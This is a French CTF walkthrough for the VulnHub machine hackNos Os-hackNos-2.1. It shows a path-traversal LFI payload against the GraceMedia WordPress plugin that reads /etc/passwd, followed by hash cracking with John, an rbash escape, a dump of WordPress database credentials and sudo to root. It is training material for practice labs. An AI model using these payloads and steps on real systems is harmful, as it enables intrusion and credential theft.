 ```yaml
---
title: "Solution du CTF hackNos: Os-hackNos-2.1 de VulnHub"
tags: [CTF,VulnHub]
---
```


[hackNos: Os-hackNos-2.1](https://vulnhub.com/entry/hacknos-os-hacknos-21,403/) est un CTF créé par [Rahul Gehlaut](https://twitter.com/rahul_gehlaut) et disponible sur *VulnHub*.

## LFI made easy

`Nmap` a la bonté de nous trouver un dossier intéressant sur le serveur web :

```
Nmap scan report for 192.168.56.220
Host is up (0.00055s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-enum: 
|_  /tsweb/: Remote Desktop Web Connection
|_http-server-header: Apache/2.4.29 (Ubuntu)
```

Contrairement à ce qu'on pourrait imaginer on y trouve un Wordpress.

Un petit coup d'œil au code source montre l'utilisation d'un plugin :

```html
<script type='text/javascript' src='http://192.168.56.220/tsweb/wp-content/plugins/gracemedia-media-player/jwplayer/jwplayer.html5.js?ver=5.3'></script>
<script type='text/javascript' src='http://192.168.56.220/tsweb/wp-content/plugins/gracemedia-media-player/jwplayer/jwplayer.js?ver=5.3'></script>
```

Une faille d'inclusion existe pour ce plugin :

[WordPress Plugin GraceMedia Media Player 1.0 - Local File Inclusion - PHP webapps Exploit](https://www.exploit-db.com/exploits/46537)

On essaye aussitôt de lire `/etc/passwd` et le résultat dépasse nos espérances :

```
http://192.168.56.220/tsweb/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../etc/passwd
```

On trouve en effet un hash dans le fichier :

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
rohit:x:1000:1000:hackNos:/home/rohit:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
flag:$1$flag$vqjCxzjtRc7PofLYS2lWf/:1001:1003::/home/flag:/bin/rbash
```

`JtR` trouve rapidement le mot de passe correspondant :

```console
$ john hashes.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Warning: Only 30 candidates buffered for the current salt, minimum 48 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:./password.lst
Enabling duplicate candidate password suppressor
topsecret        (flag)     
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Les plus attentifs auront remarqué que l'utilisateur `flag` a son shell défini à `rshell` donc un shell restreint.

Les restrictions semblent assez légères, j'ai juste lancé `sh`, écrasé la variable `SHELL` et relancé `bash` :

```console
flag@hacknos:/$ export SHELL=/bin/bash
-rbash: SHELL: readonly variable
flag@hacknos:/$ /bin/bash
-rbash: /bin/bash: restricted: cannot specify `/' in command names
flag@hacknos:/$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
flag@hacknos:/$ sh
$ export SHELL=/bin/bash
$ bash
flag@hacknos:/$ env
SSH_CONNECTION=192.168.56.1 58684 192.168.56.220 22
LANG=en_US.UTF-8
XDG_SESSION_ID=1
USER=flag
PWD=/
HOME=/home/flag
SSH_CLIENT=192.168.56.1 58684 22
XDG_DATA_DIRS=/usr/local/share:/usr/share:/var/lib/snapd/desktop
SSH_TTY=/dev/pts/0
MAIL=/var/mail/flag
SHELL=/bin/bash
TERM=xterm-256color
SHLVL=2
LOGNAME=flag
XDG_RUNTIME_DIR=/run/user/1001
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
_=/usr/bin/env
```

J'ai ensuite récupéré les identifiants de BDD dans la config Wordpress et dumpé la table des utilisateurs :

```sql
mysql> select * from wp_users;
+----+------------+------------------------------------+---------------+-----------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email            | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+-----------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | user       | $P$B.O0cLMNmn7EoX.JMHPnNIPuBYw6S2/ | user          | rahulgehlaut@mail.com |          | 2019-11-17 17:56:53 |                     |           0 | user         |
+----+------------+------------------------------------+---------------+-----------------------+----------+---------------------+---------------------+-------------+--------------+
1 row in set (0.00 sec)
```

Le hash ne semblant pas se casser, j'ai fouillé dans le système, notamment dans `/var/backups` :

```console
flag@hacknos:/var/backups$ ls passbkp/
total 12K
drwxr-xr-x 2 root root 4.0K Nov 17  2019 .
drwxr-xr-x 3 root root 4.0K May 29 09:51 ..
-rw-r--r-- 1 root root   32 Nov 17  2019 md5-hash
flag@hacknos:/var/backups$ cat passbkp/md5-hash 
$1$rohit$01Dl0NQKtgfeL08fGrggi0
```

Ce hash se casse avec `rockyou`, il s'agit du clair `!%hack41`.

À partir du compte `rohit` on peut alors passer `root` :

```console
flag@hacknos:/tmp$ su rohit
Password: 
rohit@hacknos:/tmp$ sudo -l
[sudo] password for rohit: 
Matching Defaults entries for rohit on hacknos:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User rohit may run the following commands on hacknos:
    (ALL : ALL) ALL
rohit@hacknos:/tmp$ sudo su
root@hacknos:/tmp# cd /root
root@hacknos:~# ls
root.txt
root@hacknos:~# cat root.txt 
 _______                         __              __  __     #
/       \                       /  |            /  |/  |    #
$$$$$$$  |  ______    ______   _$$ |_          _$$ |$$ |_   #
$$ |__$$ | /      \  /      \ / $$   |        / $$  $$   |  #
$$    $$< /$$$$$$  |/$$$$$$  |$$$$$$/         $$$$$$$$$$/   #
$$$$$$$  |$$ |  $$ |$$ |  $$ |  $$ | __       / $$  $$   |  # 
$$ |  $$ |$$ \__$$ |$$ \__$$ |  $$ |/  |      $$$$$$$$$$/   #
$$ |  $$ |$$    $$/ $$    $$/   $$  $$/         $$ |$$ |    #
$$/   $$/  $$$$$$/   $$$$$$/     $$$$/          $$/ $$/     #
#############################################################                                                          
                                                          
#############################################################                                                          
MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b

Blog : www.hackNos.com

Author : Rahul Gehlaut

linkedin : https://www.linkedin.com/in/rahulgehlaut/
#############################################################
```
